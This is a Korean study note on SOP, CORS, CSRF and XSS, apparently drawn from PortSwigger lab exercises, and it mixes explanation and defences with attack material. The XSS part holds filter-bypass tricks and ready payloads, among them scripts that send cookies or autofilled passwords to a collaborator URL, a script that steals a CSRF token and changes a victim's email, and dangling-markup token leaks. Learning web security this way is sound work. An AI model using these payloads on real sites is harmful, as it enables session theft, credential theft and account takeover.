









# 1. SOP

## 1.1. SOP 란? 

- Same-Origin Policy : 동일 출처 정책 
- 서로 다른 출처(Origin)의 문서, 스크립트 들의 상호작용을 제한하는 브라우저의 보안정책. 
- 동일출처(Same Origin) = Scheme, Domain, Port 가 일치한다.
  

## 1.2. CORS

- Cross-Origin Resource Sharing: 교차 출처 리소스 공유  

- SOP때문에 서로 다른 오리진들과 리소스를 공유가 제한되어 있다. 이러한 제한을 완화하여 공유를 하는 것이 CORS이다. 
- 하지만, 웹사이트의 CORS 정책이 제대로 설정되어 있지 않을 경우. 즉, 외부 오리진에 대한 요청에 관대할 경우에는 CSRF같은 cross-origin 공격에 노출될 수 있다.  
- CORS를 위한 설정은 응답을 만드는 서버에서 해야한다. 서버에서 허용한 도메인만 CORS가 된다. 
- [https://developer.mozilla.org/ko/docs/Web/HTTP/CORS](https://developer.mozilla.org/ko/docs/Web/HTTP/CORS) 

 

### 1.2.1. 공유방법

- **postMessage** 
  
- 메시지를 주고 받기 위한 이벤트 핸들러를 통한 리소스 공유 
  
- **JSONP** 

  - 스크립트 태그를 통해, 외부 자바스크립트 코드를 호출하여 현재 오리진에서 해당 코드를 실행시킨다.  

- **CORS** **헤더** **사용** 

  - **요청헤더** 

    ```http
    ...
    Access-Control-Request-Method: POST 
    Access-Control-Request-Headers: content-type 
    Origin: http://naver.com
    ... jimin.com에서 naver.com에 요청을 보낸다.
    ```

  - **응답헤더**

    ```http
    ...
    Access-Control-Allow-Origin: http://jimin.com
    Access-Control-Allow-Methods: POST, GET 
    Access-Control-Allow-Credential: true 
    Access-Control-Allow-Headers: Content-type
    ... 허용된 오리진에는 정상응답을 보낸다.
    ```

  - 응답헤더 Access-Control-Allow-Origin: 의 값으로 '요청을 보낸 웹사이트' 가 있을 경우, 해당 응답을 읽을 수가 있다. 

  - 일반적으로 외부에 보내는 요청은 권한을 위한 쿠키가 필요가 없다. 하지만, 필요한 경우에는 요청 헤더에 포함시켜보낸다. 
    그럼 응답헤더에 Access-Control-Allow-Credentials: true가 추가되어지고, true인 경우에만 브라우져가 응답을 읽을 수 있다. 

  - 이 밖에도 일부 HTTP메소드만 하는 등, 요청에 대한 여러가지 제한을 만들 수 있음. 

  - https://portswigger.net/web-security/cors/access-control-allow-origin 

    

## 1.3. SOP가 필요한 이유

- 다른 사이트로 요청을 보낼때, 로컬에 저장된 해당 사이트 쿠키가 적용되어 요청이 보내짐. 
  예를 들어, 계정삭제, 계정정보변경.. 등등. 즉 CSRF에 취약해짐.
- 만약에, 어떤 유저가 내 사이트에 방문했는데, 내 사이트에 페이스북 링크를 넣어두었음. 
  - 그럼, 그 유저의 세션으로 페이스북이 로드되고, 내 사이트에서 그 유저의 페북 정보를 읽을 수 있음. 
  - 보안상 문제가 되기에, **CORS상황을 완화하고자 SOP가 생기게 된거임.**
- 하지만, SOP는 CORS의 완벽한 방어는 아님. 
  Ajax요청은 제한하면서, img, iframe같은 요청은 허용하고, form의 POST요청도 허용함. 
  그리고 JSONP나, postMessage()처럼 SOP의 제한을 피하여 CORS를 구현할 수 있는 여러가지 방법들이 있음. 
- CORS의 문제를 해결하기 위해 등장한 것이 SOP지만, 
  CORS가 필요한 상황이 많기에 SOP를 빡시게 설정할 수는 없었음.


## 1.4. SOP 규칙 

페이지의 , <video>, <script src=''>의 출처는 외부에서 가져와서 쓸 수 있다. 
하지만, 외부에서 가져온 내용을 기존 페이지의 자바스크립트가 읽을 수는 없다. 

- cross-origin writes(쓰기)- 허용 
- cross-origin embeding(삽입)- 허용 
- cross-origin reads(읽기)- **허용안함** 

요청도 바로 보내는 것이 아님. 
교차 출처에 요청을 보낼 때는 OPTIONS 메서드로 먼저 요청을 보내서 오는 응답에서 허용 여부를 알아봐야함. 
그래서 해당 서버의 허가가 떨어진 경우에만 본 요청을 보낼 수 있음. 


## 1.5 취약점

많은 웹사이트는 서브도메인이나 신뢰할 수 있는 써드파티로부터의 접근을 위해 CORS를 쓴다. 
하지만, 이러한 CORS의 허용은 때로 지나치게 관대하여, 취약점이 발생한다. 


### 1.5.1 예제

http응답의 헤더를 보면 Ajax 요청에 대한 Access-Control헤더가 있다. 즉, CORS를 지원한다. 


api키를 알아내고 싶다.
요청헤더에 Origin을 더하여, 외부요청에 대한 응답에도 허용을 하는지 알아본다. 


 Origin에 외부주소를 넣는다. 



 

응답헤더에 `Access-Control-Allow-Origin: 내가 설정한 사이트` 가 있는 것으로 보아 응답에 접근할 수 있다. 

따라서, 외부 사이트에서도 응답을 읽는 것이 가능하다.
이걸 이용해서 apikey를 받아볼 수 있다. 

응답을 받을 수 있는 URL에 해당 요청을 심어서, 유저가 방문하도록 유도하면(CSRF), 
그 유저의 세션에 대한 응답을 해커가 받아서 apikey를 알아낼 수 있게 된다. 

CORS를 허용하지 않았다면, 유저가 URL을 클릭해도 해커가 의도한 요청을 보낼 수 없었다. 
하지만, 타겟 서버에서 같은 오리진이 아닌 경우에도 CORS를 허용하였고, 응답을 받아볼 수가 있게하여, 이러한 문제가 발생한다. 

- Errors parsing Origin headers 

  - 요청을 보낼때, Origin헤더를 추가해서, 응답을 받게될 도메인을 알려줌. 
  - 그럼 화이트 리스트를 보고 응답을 보낼때, 허용을 할지, 말지를 헤더에 적어서 보내줌. 
  - 화이트 리스트를 설정할때, regex같은 걸로 허술하게 만들경우에 의도하지 않은 외부 도메인에서도 응답을 받아볼 수 있게 될 위험이 있다. 
  - Origin을 null로 설정할때도 있다. 
    - Cross-site redirects. 
    - Requests from serialized data. 
    - Request using the file: protocol. 
    - Sandboxed cross-origin requests. 
    - 이런 경우에는 요청헤더 오리진에 null만 포함시키면 응답을 받게 되니, 공격에 취약하다. 
  - CORS를 잘 설정했어도, 해당 사이트가 XXS에 취약할 경우에는 공격에 취약해진다. 
  - Origin: https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script> 

  

### 1.5.2 방어

- Proper configuration of cross-domain requests 
- Only allow trusted sites 
- Avoid whitelisting null 
- Avoid wildcards in internal networks 
- CORS is not a substitute for server-side security policies 


# 2. CSRF

## 2.1. 개요

웹 브라우저는 기본적으로 SOP에 위반되지 않는 모든 요청에 그 사이트에 맞는 쿠키를 함께 전송한다. 
**사용자의 의도와는 무관하게 다른 사이트에 HTTP요청을 보내는 것이 CSRF공격**이다. 

따라서, 해당 사용자만 쓸 수 있는 기능을 사용하는 요청을 보낼 수 있다. 
송금, 비번변경, 관리자권한의 공지작성 등등..


### 2.1.1. XSS와의 차이

XSS는 자바스크립트를 희생자의 브라우져에서 실행시키는 공격.
CSRF는 희생자의 세션으로 원치않은 요청을 보내는 공격.

CSRF라는 목적을 위해 XSS가 사용될 수는 있음. 


## 2.2. 공격

### 2.2.1. 공격 성공조건

1. 해당 웹사이트가 쿠키를 이용한 인증방식을 이용해야한다. (쿠키는 자동으로 설정되기 때문=내가 몰라도 알아서 넣어줌) 

2. 공격자가 사전에 알 수 없는 파라미터가 있어서는 안된다. (자동입력방지문자, 기존패스워드 입력, CSRF token헤더 등)  
3. 다른 유저의 세션으로 요청을 보내게 하기 위해서 URL을 reflected xss와 마찬가지로 메일, sns로 뿌리고 그걸 누군가가 클릭해야함.  


### 2.2.2. 공격 과정

1. 일단, 공격용 사이트가 있어야함. 거기에 요청코드를 넣고, 방문하도록 유도해야함. 

2. 공격용 사이트에 이메일변경 요청을 보내는 PoC form을 만들어서 넣음 (CSRF PoC generator 사용)
3. 그 URL을 희생자가 클릭(방문)하도록 유도
4. 희생자의 세션으로 POST요청이 가면서 이메일이 변경됨.

> burpsuite  pro버젼에 있는 collaborator를 쓰면 응답을 받을 수 있는 URL을 생성가능.


### 2.2.2. 예제(업데이트 예정)


## 2.3.방어법 

### 2.3.1. referer 헤더

요청 페이지의 출처를 확인한다. 
공격자가 추가할 수 있기에, 효과는 미미함. 


### 2.3.2. 공격자가 예측할 수 없는 파라미터 추가&검증

- **CSRF Token** 

요청헤더에 CSRF token을 추가, 서버의 유저 세션데이타와 비교하게 한다. 
일치하면 응답을 주고, 일치하지 않으면, 에러를 낸다. 

공격자가 사전에 알 수 없어서, 요청헤더를 빌드할 수 없기에 공격을 방어할 수 있다. 

쿠키는 자동으로 추가되는 헤더이기에 거기에 토큰을 넣으면 안됨. 
form에서 숨겨진 input value로 보내는 경우가 일반적이다. 
토큰을 URL, 쿠키, 헤더로 보내는 것은 안전하지 않음. input value가 가장 이상적임.

> CSRF가 XSS도 막아줄 수 있을까? 
>
> - If a reflected XSS vulnerability exists anywhere else on the site within a function that is not protected by a CSRF token, then that XSS can be exploited in the normal way. 
> - If an exploitable XSS vulnerability exists anywhere on a site, then the vulnerability can be leveraged to make a victim user perform actions even if those actions are themselves protected by CSRF tokens. In this situation, the attacker's script can request the relevant page to obtain a valid CSRF token, and then use the token to perform the protected action. 
> - CSRF tokens do not protect against stored XSS vulnerabilities. If a page that is protected by a CSRF token is also the output point for a stored XSS vulnerability, then that XSS vulnerability can be exploited in the usual way, and the XSS payload will execute when a user visits the page.

- **커스텀** **헤더의** **사용** 

요청에 붙어서 가는 세션 쿠키말고, Authorization 같은 인증을 위한 헤더를 사용. 


### 2.3.3. SameSite attr 

파라미터를 추가하는 방법은 서버사이드에서 추가적인 검증을 하는 방식이다. 
쿠키에는 key=value 외에도 다양한 설정 옵션이 있다. Domain, Expires, Path 등 

그 중에서 SameSite 옵션은 Strict, Lax, Normal의 값을 설정할 수 있다. (크롬에서는 무조건 SameSite=Lax 이상) 

Strict는 모든 크로스 사이트에서 출발한 요청에 해당 쿠키를 삽입하지 않는다. 
Lax는 Link, Prerender, Form GET을 제외한 요청에는 삽입하지 않고 Normal은 기존과 같이 모든 요청에 삽입한다. 

하지만, strict는 유저에게 너무 불편하고, lax는 또 너무 취약하다. 그래서 samesite속성만 쓸 것이 아니라, CSRF랑 같이 섞어쓰는게 좋음. 

 

## 2.4 여담 

- CSRF공격을 위해서 요청을 보내는 페이지를 빌드해야하는데, 이걸 쉽게해주는 것이 burpsuite의 CSRF PoC generator이다. 
  auto submit으로 방문만하면 요청이 가게끔 할 수 있다. 
  원하는 request에서 generate, html을 생성하고 그걸 내 사이트에 붙여넣어서 뿌리면 된다. 

- CSRF token은 HTTP method에 따라서 효과가 없어질때도 있음. 그래서 POST요청을 GET으로 바꿔보내면 되기도 함. 
- 그리고 CSRF token이 틀리면 막히는데, 아예 없으면 그냥 넘어가기도 함;; 
- 그리고 CSRF가 유저 세션하고 일치하는지 비교하는 식이어야 하는데, 그냥 만들어둔 CSRF들 사이에서 찾아서 비교하는 경우도 있음. 
  그럴경우에는 내 계정으로 CSRF를 만들어서 bypass가능. 

 

# 3. XSS

## 3.1. 개요

사이트에 자바스크립트 코드를 삽입하는 공격 기법 

- **XSS 공격예시** 
  - 다른 유저의 권한으로 읽을 수 있는 데이터 읽기, 계정정보 변경, 탈취하기.

- **방어법**
  - user input을 필터링한다. 
  - output이 조작가능한 경우도 있으니, output도 필터링한다. 
  - 헤더를 쓴다. Content-type같은.. CSP도 쓸 수 있다. 

- **비슷한 공격기법들**
  - Dangling markup injection 
    - 태그를 삽입하는데 괄호를 덜 닫아서, 뒷문서까지 다 태그에 포함시키게 해서 정보를 빼오는 방법. 
    - https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection 
  - [CSRF](#2.-CSRF) 
    - CSRF란 다른 사용자의 세션을 이용해서 원치않은 요청을 보내게 하는 것. 
    - 그리고 그런 요청을 막기위해, 토큰, refer와 같은 헤더가 쓰인다. 
    - XSS vs CSRF
      - XSS는 악의적인 자바스크립트의 실행으로 응답을 받는 것이고, CSRF는 유저가 원치않는 요청을 하게 하는 것이다. 
    - XSS vs SQL injection 
      - XSS는 다른 유저를 타겟으로 client-side의 취약점을 이용. SQL injection은 DB를 타겟으로 server-side의 취약점을 이용. 

-  **기본 개념** 
  - [SOP](#1.1.-SOP-란?) = 어떤 출처에서 불러온 문서나 스크립트가 다른 출처에서 가져온 리소스와 상호작용하는 것을 제한하는 중요한 보안 방식
  - [CORS](#1.2.-CORS) = HTTP헤더를 사용하여, 한 출처에서 사용중인 웹 에플리케이션이 다른 출처의 자원에 접근할 수 있는 권한을 부여하도록 웹브라우져에게 알려주는 체제. 
  - CSP = Content-Security-Policy 라는 HTTP헤더. XSS에 방어하기 위한 목적. 이미지나 스크립트같은 리소스의 로드를 제한. 
    - 모질라 SOP = https://developer.mozilla.org/ko/docs/Web/Security/Same-origin_policy 
    - 모질라 CORS = https://developer.mozilla.org/ko/docs/Web/HTTP/CORS
    - 모질라 CSP = https://developer.mozilla.org/ko/docs/Web/HTTP/CSP 


## 3.2. 종류

- Reflected XSS = 요청받은 데이터를 응답으로 바로 쓰는 경우
- Stored XSS = 요청받은 데이터를 저장했다가 나중에 응답으로 쓰는 경우
- DOM-based XSS = DOM을 쓰는 js함수(sink)가 있을때, 파라미터가 되는 source를 조작해서 sink에 들어가게 하는 것.

### 3.2.1. Reflected XSS

HTTP 요청으로 받은 데이타가 응답에 즉각 표시될때 생김. 

stored XSS처럼 문서에 포함되서 다른 방문유저에게 실행될 수 있도록 할 수가 없기에, 
스크립트가 삽입된 URL을 피싱메일로 보내는 등, 다른 유저가 쓰게 하기 위해서는 추가적인 작업을 해줘야함. 
이러한 이유로 stored xss보다는 덜 위험함. 

ex) 검색창에 텍스트를 입력하고 검색을 누르면, "~~~"에 대한 검색결과 입니다. 하는 문구가 뜸. 
즉, 내가 입력한 문구가 요청에 대한 응답 페이지를 렌딩하는데 쓰임. 
그리고 거기에 <script>window.alert(1)</script> 같은 스크립트를 넣어서 실행시키는 것이 reflected xss임. 

이렇게 삽입한 스크립트는 보통 URL에 삽입이 됨. 
그래서 URL을 다른 유저에게 클릭하도록 뿌려야 다른 유저의 브라우져에서 스크립트가 실행됨. 

### 3.2.2. Stored XSS

말 그대로 저장되서 실행되는 스크립트, 지속적 공격이 가능하여, persistent XSS라고도 한다. 

댓글이나 포스트처럼 유저가 작성한 텍스트가 저장되서, 다른 유저가 볼 수 있는 서비스에 주로 삽입함. 
삽입한 스크립트는 다른 유저의 브라우져와 세션 환경에서 실행 됨.  

전달되서 실행된 Reflected XSS랑 똑같은 공격을 할 수 있음. 
다만, 따로 클릭유도를 안해도 되기에 좀더 쉽고, 스크립트 실행 성공률이 높음. 

### 3.2.3. DOM based XSS

DOM을 다루는 스크립트함수에 조작한 데이터를 통과시키는 방법이다. 

원본에 데이터(source)를 삽입하면, 그걸 읽는 자바스크립트 함수(sink)에 의해 실행된다. 
가장 흔한 source는 URL이다. 
sink는 document.write 같은게 있음. 

DOM XSS를 위해서는 일단, DOM을 쓰는 sink와 sink에 들어가는 source를 파악해야한다. 
개발자도구 ctrl+shift+F를 눌러서 검색하고, debugger로 테스트하면서 찾음. 

찾으면, sink 함수를 보고, 그에 맞는 스크립트를 작성한다. 

 

## 3.3. 공격문구

### 3.3.1. 방법론

tag를 삽입하여 공격할 경우, 막히지 않은 태그를 찾아야 한다.
[cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)의 태그 list를 넣어서 brute force공격을 하면, 사용가능한 태그를 볼 수 있다. 
같은 방법으로 event list의 가능 유무도 알 수 있다. 

- XSS cheat sheet = [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 

코드를 실행할 수 있는 HTML요소는 <script>이외에도 많다. 
그리고 스크립트를 포함할 수 있는 속성들도 많다. 
대표적으로 이벤트핸들러를 지정하는 on으로 시작하는 속성들. 

속성에 쓸때는 &lt; 같은 엔티티를 포함할 수 있다. 그래서 필터를 우회하기 쉬움. 

- **JS 필터우회** 

| 원래는 이건데.. | 이걸로 대체 가능!       |
| --------------- | ----------------------- |
| alert           | window['al'+'ert']      |
| window          | this, self              |
| eval(code)      | Function(code)          |
| Function        | isNaN['constr'+'uctor'] |
| "code", 'code'  | \`code\`, /code/        |

- <scrscriptipt>alert(1)</scrscriptipt> script를 제거하는 필터링에는 겹쳐쓰는 방식으로 우회가능 

- 모든 태그가 막혀있을 경우에는 커스텀태그를 만들어서 삽입할 수 있다. 

```html
<script>
location='https://your-lab-id.web-security-academy.net/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x'; 
</script> 
```

위 코드는 'xss'라는 커스텀 태그를 만들고, 거기에 onfocus이벤트를 넣어서 실행이 되게 했다. 

- href같은 속성이 막힌 경우에는 svg벡터 태그를 이용할 수 있다. 

```html
<!--animate, attributeName같은 svg속성을 이용하여 스크립트를 실행한다.-->
Host/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
```

```html
<!--discard태그가 막히지 않은 경우에는 이런식도 가능.-->
Host/?search="><svg><discard onbegin=alert(1)>
```

- 만약에 삽입한 텍스트가 태그의 속성으로 들어가는 경우에는 태그를 먼저 닫아준다. 

```html
<!--앞에 "> 로 태그를 닫을 수 있다. -->
"><script>alert(document.domain)</script>

<!-- </tag> 로 태그를 닫을 수 있다. -->
</script><script>alert(1)</script> 
```


 ### 3.3.2. 사용예시

> XSS를 막기위해 다양한 필터가 input값을 검사한다. 
> 다음은 그런 필터링의 종류와 그걸 뚫는 방법에 대한 예제이다. 


**검색창에 입력한 텍스트가 input 태그의 value 속성 값으로 들어가는 경우.** 



검색창에 `" onmouseover="alert(1)` 를 넣는다. 

그럼 주위에 큰 따옴표가 추가되면서 속성 값이 아래와 같이 설정됨.
 `value="" onmouseover="alert(1)"` 

이벤트가 추가된다. 


 **검색창에 입력한 텍스트가 script에 들어가는 경우**.

이럴때는 '-alert(1)-' 를 쓰면 string에서 빠져나올 수 있음. 



이렇게 해서 alert 실행  

- '-alert(document.domain)-' 
- ';alert(document.domain)// 

string에서 빠져나오기위해서 위와 같은 방법이 쓰임. 


**' " 같은 quote앞에 이스케이프 \가 자동으로 붙는 경우**

'jimin' 을 입력하면, ' 앞에 \가 붙게됨. 
그래서 \'; 로 string을 닫아주고, alert(1) 같은 스크립트를 넣고, //로 뒤에 붙는 애들을 주석처리함. 




**<>같은 괄호가 막혀있는 경우**

태그를 못넣는다. 
이때는 태그를 안넣고, 현재 있는 태그에 자밥스크립트를 실행할 수 있는 속성을 넣어도 됨. 

- " autofocus onfocus=alert(document.domain) x=" 

onfocus같은 이벤트 속성을 넣어서 스크립트 실행. 
여기서는 autofocus로 자동으로 onfocus이벤트를 일으켜서, 스크립트가 실행됨. 

href에는 보통 http: 처럼 프로토콜을 지정하는데, 여기에 자바스크립트를 넣어도 작동함. 

- <a href="javascript:alert(document.domain)">  // javascript프로토콜의 사용

**accesskey를 이용하는 방법**
URL파라미터가 태그의 속성으로 들어간다는 것을 이용해서, 

-  accesskey=x onclick=alert(1) 를 삽입. 
- alt+shift+x 를 누르면 accesskey를 인식하고 onclick이 실행됨. 


**링크 수정하기**



뒤로 가기 기능이 자바스크립트로 작성되어있다. URL 파라미터를 삽입할 수 있음을 확인. 
아래 파라미터를 넣은 URL을 로드한다.

```html
Host/post?postId=5&'},x=x=>{throw/**/onerror=alert,jimin},toString=x,window+'',{x:' 
<!--/**/를 넣어서 nospace restriction를 피해서 공백을 넣는다.-->
```

그럼 뒤로가기 a태그의 href가 다음과 같이 변한다. 

```html
href="javascript:fetch('/analytics',{method:'post',body:'/post?postId=5&'},x=x=>{throw/**/onerror=alert, jimin},toString=x,window+'',{x:''}).finally(_=>window.location='/')"
```

따라서, 뒤로가기를 누르면 삽입한 자바스크립트인 alert가 실행된다. 

 

**내 계정에 입력한 웹사이트 주소가 내가 쓴 댓글 프로필의 a 태그 onclick 속성 안으로 들어간다.** 



`http://foo/?'-alert(1)-&apos`

다음과 같은 payload를 쓴다, apos는 ' 을 뜻한다. 
그럼 해당 함수를 빠져나와서 자바스크립트를 실행할 수 있다.
이 경우 내 댓글을 보는 모든 이들의 브라우져에서 실행시킬 수 있다.  

 

**template이 쓰인경우**

탬플릿 엔진 문법을 참고하여, ${ }처럼 자바스크립트를 실행할 수 있는 괄호 안에 넣어서 실행할 수도 있다. 


**on, script 같은 문자가 막혀있는 경우** 

`` 에서, n을 인코딩해서, 

`` 로 하면 통과가능.

태그의 속성값은 HTML 엔티티를 포함할 수 있음. 
그래서 on을 못쓰니까, n을 인코딩함. 

https://mothereff.in/html-entities 여기에 문자를 넣고, 인코딩함.

 `<iframe srcdoc=''></iframe>`  
이런식으로 인코딩한 문자를 넣어서, 원하는 속성을 삽입할 수 있다.

## 3.4. 공격예시

실제 XSS공격은 주로 3가지 목적을 가진다.

- 쿠키를 훔친다. 
- 비번을 훔친다. 
- 원치않는 요청을 보낸다. 

### 3.4.1. 쿠키 도둑

다른 유저의 쿠키로  내 도메인에 요청을 보내게 해서 쿠키값을 알아낸다. 

**방법**

burp collraborator client를 열어서 "copy" 한다. 
카피된 URL로 오는 요청을 받아볼 수 있다. 

댓글에 아래 스크립트를 넣는다. 

```html
<!--당연히 대부분의 댓글에는 엄격한 필터링이 걸려있음.-->
<script> 
fetch('https://<카피한 URL>', { 
method: 'POST', 
mode: 'no-cors', 
body:document.cookie
}); 
</script>
```

저게 입력이 되고 그대로 저장되면, 댓글을 본 누군가의 세션 쿠키가 POST 요청으로 내게 보내진다. 
요청에 담긴 쿠키로 내 웹사이트의 쿠키값을 편집하면 해당 계정의 세션을 탈취할 수 있다. 

**한계** 

유저가 로그인해서 쿠키를 가지고 있어야함. 
HttpOnly 쿠키옵션이 쓰이면, document.cookie를 이용못함. 
로그인하는 IP가 이상하면, 막는 경우도 있음. 

 

### 3.4.2. 비번 도둑

요즘엔 로그인폼을 자동완성해주는 브라우져가 많음. 

**방법**

그래서 내가 해당 사이트랑 똑같은 로그인 폼을 만들어서 웹사이트 어딘가에 넣어두면,
브라우져는 알아서 자동완성을 하게되고, 그대로 요청을 내 도메인을 받아서 볼 수 있게 함. 

burp collraborator의 URL을 카피해서 댓글에 아래 스크립트를 넣는다. 

```html
<input name=username id=username> 
<input type=password name=password onchange="if(this.value.length)fetch('https://<카피한 URL>',{ 
method:'POST', 
mode: 'no-cors', 
body:username.value+':'+this.value 
});"> 
```

이 댓글을 로드한 유저 중에 아이디, 비번 자동완성이 되는 유저들은 
POST req를 보내서 그걸 볼 수 있게 된다. 

 **한계**

자동완성을 안해주면 의미없음.

 

### 3.4.3. XSS를 이용한 CSRF

사이트에 스크립트를 넣어서, 다른 유저가 원치않은 요청을 보내게 함. 

**예시**

어떤 사이트들은 이메일바꾸는데 비번검증을 안함. 
그럼, 이메일을 내걸로 바꾸고, 비번 리셋요청보내게 할 수 있음. 
그럼 내 이메일로 리셋을 위한 URL이 오게됨. 

댓글에 아래와 같은 스크립트를 삽입 

```html
<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/email',true); 
req.send(); 
function handleResponse() { 
  var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
  var changeReq = new XMLHttpRequest(); 
  changeReq.open('post', '/email/change-email', true); 
  changeReq.send('csrf='+token+'&email=test@test.com') 
}; 
</script> 
```

댓글을 본 사람들은 이메일을 바꾸는 POST요청을 보내게 된다. 


## 3.5. Dangling markup injection

### 3.5.1. 개요

Dangling(기다리게 하다.) 

예를 들어 `<table background='//burp-url?` 같은 dangling코드를 URL query string에 삽입한다. 

그리고 이걸 다른 유저에게 보낸다. 
그럼 collarabrator에서 pull하여 요청을 볼 수 있게 된다. 

요청 URL qeury string에는 dangling으로 인해 csrf 값까지 포함되어 있다. 



 

요청 URL을 디코딩하면 위와같이 csrf를 가져오면 email을 바꾸기 위한 모든 준비가 끝나게 된다. 

여기서 하나 짚고 넘어갈것이.. 

`https://ac391f551ec45b18804726a60018002b.web-security-academy.net/email?email=%22%3E%3Ctable%20background=%27fxg2lx5ogejybh6n571ttgwk6bc20r.burpcollaborator.net`

 이런식으로 생겨먹은 URL은 누가봐도 수상하다. 
그래서 내 사이트에 script로 저 URL을 넣고, 
그 스크립트를 넣은 내 사이트 주소를 유저에게 뿌린다. 

```html
<script>
location='Host/email?email="><table background='//collaborator-URL' 
</script> 
```

 위에 코드는 그냥 바로 요청이 보내지도록 한 경우이다. 하지만 CSP가 strict하면 그게 안된다. 
그래서 a태그에 내 사이트 주소를 넣어서 클릭을 유도. 
내사이트로 요청이 오는 요소를 만들어내는 방식으로 CSP를 우회한다. 

```html
<script> 
if(window.name) 
{ 
	new Image().src='//collaborator-URL?'+encodeURIComponent(window.name); 
} 
else
{ 
	location = 'Host/email?email="><a href="https://your-exploit-server-id.web-security-		academy.net/exploit">Click me</a><base target=''; 
} 
</script> 
```

아무튼, CSRF token을 알아냈으니, 이제 email을 바꿔주기만 하면 됨. 

